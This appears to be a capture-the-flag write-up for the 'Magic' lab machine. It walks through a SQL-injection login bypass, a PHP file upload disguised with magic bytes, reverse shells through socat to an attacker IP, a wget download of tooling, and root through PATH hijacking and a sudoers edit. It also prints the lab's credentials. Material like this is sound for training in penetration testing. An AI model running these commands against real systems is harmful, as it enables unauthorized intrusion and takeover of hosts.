 #### Enumeration
- Open Ports, port `22 and 80`
- `login.php` found in the webpage
- Enumerating dirs and files on the http port reveals `uploads.php, images dir`
- Buruteforcing the `301` images dir revealse `uploads` dir


#### Obtaining Shell
##### www-data Shell

- Bypass login with basic sql injection payload `' or 1 = 1 -- -` as user name and password
- Upload a php file gets error, play with magic bytes and upload successful
- Reverse shell via uploaded file

##### User Shell 

- Poking over, a database file is found with plain text creds, use it to obtain user
- mysql password obtained from the file, `/var/www/Magic/db.php5`
- Logging in to mysql to obtain the password of `thesus` and priv esc as thesus to obtain user

#### PrivEsc

- Look for setuid binaries
- `Systeminfo ` file utilises 4 binaries `lshw, free, cat, fdisk`
- Creating a binary with the same name and with path hijacking root shell can be obtained

#### Commands:

**Directory Enumeration**
```bash
# root enumeration
gobutser dir -u http://10.10.10.185 -w /usr/share/wordlists/dirubuster/directory-list-2.3-medium.txt -x php,txt -o root-dir.txt

# images enumeration
gobuster dir -u http://10.10.10.185/images/ -w /usr/share/wordlists/dirubuster/directory-list-2.3-medium.txt -x php,txt -o img-dir.txt
```

**Sql Injection**
```bash
# via sqlmap
# capture the login request via burp and save it as login.req
# theseus password obtained via sql injection
sqlmap -r login.req --level=5 --risk=3 --batch
# Manually on the web page
admin: ' or 1 = 1 -- - 
password: ' or 1 = 1 -- - 
```

**Port Forwarding**
```bash
# port forwarding the sql service to local machine
cd /tmp
wget http://10.10.14.52:8080/socat
chmod +x socat
# redirects port 3306 on localhost to port 5555 externally
# socat open the port 5555 in the magic machine and accepts connection only from 10.10.14.52
# the datas given by 10.10.14.5 to port 5555 are forwarded to 3306 which is mysql, the '&' at the last makes this command to run in the background
./socat TCP_LISTEN:5555, range = 10.10.14.52/32 TCP:localhost:3306 &
```

**MySql**
```bash
# After forwarding the service via socat
mysql -h 10.10.10.185 -P 5555 -u thesus -p iamkingtheseus
# after connection, enumerate the databases
show databases;
# select the magic database
use magic; 
# show the available tables in the database
show tables;
# show everything from the login table
select * from login;
# password for admin is obtained
admin: Th3s3usW4sK1ng

## This will be automatically obtained if sql map is used
# Use this password to escalate as theseus
```

**SUID Binaries**
```bash
# find via permissions
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```

**Path Exploitation**
```bash
# looking at the setuid binaries sysinfo is something odd, running it gives info
# obtain what it runs
strings /bin/sysinfo
# exploiting the path
# created a vulnerable cat binary which invokes reverse shell via socat
echo "./socat tcp-connect:10.10.14.7:5555 exec:/bin/sh,pty,stderr,setsid,sigint,sane" > cat
chmod +x cat
# export the pwd to path and execute sysinfo to obtain rootshell
export PATH=/tmp:$PATH
# running sysinfo will give us root shell as the path will look for cat in the /tmp dir first
```

**Path Exploitation 2**
```bash
# create a bash script to edit and add the theses user to execute all commands
echo "#!/bin/bash" > /tmp/cat
echo "/bin/echo 'theseus ALL = (ALL:ALL) ALL' >> /etc/sudoers" >> /tmp/cat
# export the path and run 
sudo su 
# enter the password for thesus root shell obtained
```
